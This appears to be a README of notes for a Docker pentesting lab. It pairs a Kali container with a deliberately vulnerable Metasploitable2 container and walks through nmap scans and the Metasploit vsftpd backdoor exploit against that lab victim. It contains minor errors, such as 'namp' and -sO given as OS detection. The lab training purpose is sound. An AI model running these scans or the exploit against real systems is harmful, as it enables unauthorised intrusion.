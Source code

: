 # docker_metasploit_metasploitable2
[docker_link](https://medium.com/@habibsemouma/setting-up-metasploitable2-and-kali-in-docker-for-pentesting-6b71a089c4a2)
* search metasploitable2
```
docker search metasploitable
```
* pull (download metasploitable2)
```
docker pull tleemcjr/metasploitable2
```
* pull (download kali linux)
```
docker pull kalilinux/kali-rolling
```
* Test if image is present :
```
docker images
```
* Creation of network for the victim and the pentester
```
docker network create pentest
```
* RUNING on TERMINAL 1 (victim : metasploitable 2) :
```
sudo docker run --network=pentest -h victim -it --rm --name metasploitable2 tleemcjr/metasploitable2
```
Finding ip on victim : 
```
ip a
```
* RUNING on TERMINAL 2 (pentester : kali linux)
```
sudo docker run --network=pentest -h attacker -it --rm --name kalibox kalilinux/kali-rolling
```
Installing first tools : 
```
apt update
apt install net-tools
apt install nmap
ifconfig
apt install -y iputils-ping
apt install metasploit-framework
```
* Testing ping for 2 machines 
```
ping <ip_victim>
```
```
ping <ip_pentester>
```
* Testing nmap roadmap 
```
nmap -F <ip_victim>
```

* Finding host and scanning network 
learning.oreilly.com/library/view/ceh-certified-ethical

1. check for live systems
```
sudo nmap -sP <ip_victim_network>/24
```

2. check for open ports
(port 80, 443 for web)
```
sudo nmap -sT -p 80,443 10.7.1.0/24
```
T : for TCP using 3-way handshake (Full Open scan) </br>
message 1 : i'm prot 443 Are you theire (SYN) </br>
message 2 : yes i'm thiere, (SYN ACK) </br>
message 3 : let's talk (ACK) </br>
More detect by the IDS </br>
3-way handshake without connection 
```
sudo nmap -sS -p 80,443 <ip_victim_network>/24
```

S : Stealthy (half Open Scan)
(2way handshake)
```
sudo nmap -sT <ip_victim>
```
If with wirshark :  </br>
filter by ip.addr eq <ip_victim> </br>
click one converstation and "apply this filter" </br>

4. Perform banner grabbing
OS detection :
```
sudo nmap -sO <ip_victim>
```
Mora options 
```
sudo nmap -A <ip_victim>
```

5. scan vulnerabilities
```
namp --script vuln <ip_victim>
```
* Scanning using msfconsole :
In Kali Terminal :
```
msfconsole
```
```
show payloads 
```
```
use auxiliary/scanner/portscan/tcp
```
```
show options
```
```
set ports 80
```
```
set rhosts <ip_victim>
```
```
run
```
OR
```
exploit
```
* Testing backdoor vsftpd : 
```
nmap -sV -p 21 <ip_victim>
```
search the exploit : 
```
msfconsole
```
```
search vsftpd
```
run exploit : 
```
```
use 1
```
```
set rhosts <ip_victim>
```
```
set rport 21
```
```
exploit
```
